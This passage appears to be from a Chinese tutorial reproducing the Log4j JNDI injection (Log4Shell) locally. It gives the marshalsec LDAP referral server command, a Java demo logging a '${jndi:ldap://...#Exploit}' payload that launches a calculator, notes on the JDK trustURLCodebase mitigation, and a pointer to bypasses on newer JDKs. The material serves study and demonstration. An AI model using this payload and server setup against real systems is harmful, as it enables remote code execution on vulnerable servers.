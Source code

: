 ```bash
mvn clean package -DskipTests
```

打包后，到 target 目录下执行：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8800/#Exploit"
```

上面命令的目的是启动 LDAP Server，并且把我们的程序注册到 LDAP Server 上。 具体来说是把带有 Http Server 地址（上面用 python 启动的 HTTP server）的 url 注册到 LDAP Server 上。

正常启动后 LDAP 会开始监`1389` 端口

![](https://tva1.sinaimg.cn/large/008i3skNly1gxc9q9urmxj30qe02mdg4.jpg)

最后我们编写记录日志程序：

```java
private static final Logger logger = LogManager.getLogger(Log4jDemo.class);

   public static void main(String[] args) {

       System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
       logger.error("${jndi:ldap://127.0.0.1:1389/#Exploit}");

       try {
           Thread.sleep(1000);
       } catch (Exception e) {

       }

   }
```

执行后效果：

![](https://tva1.sinaimg.cn/large/008i3skNly1gxc9s3g296j30w20cndhd.jpg)

可以看到，**我的计算器被调起了。既然可以执行语句和代码逻辑，那么像 \*\*\*\*\*\*\*\* 、**\*\*\*\*\*\* 这种操作也可以执行的！\*\*

上面这段程序中，有一行代码要注意：

```java
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
```

如果设置成 false 或者注释掉这行代码，则计算器都不会被调起，即攻击程序不会被执行。原因是 ：

> Java 最终也修复了这个利用点，对 LDAP Reference 远程工厂类的加载增加了限制，在 Oracle JDK 11.0.1、8u191、7u201、6u211 之后 com.sun.jndi.ldap.object.trustURLCodebase 属性的默认值被调整为 false，还对应的分配了一个漏洞编号 CVE-2018-3149

那是不是意味着，高版本的 JDK 就不会有漏洞呢？

不是的，还是有办法攻击，不要抱有侥幸心理，具体可以参考：[https://paper.seebug.org/942/#4-jdk-8u191](https://paper.seebug.org/942/#4-jdk-8u191 "https://paper.seebug.org/942/#4-jdk-8u191")
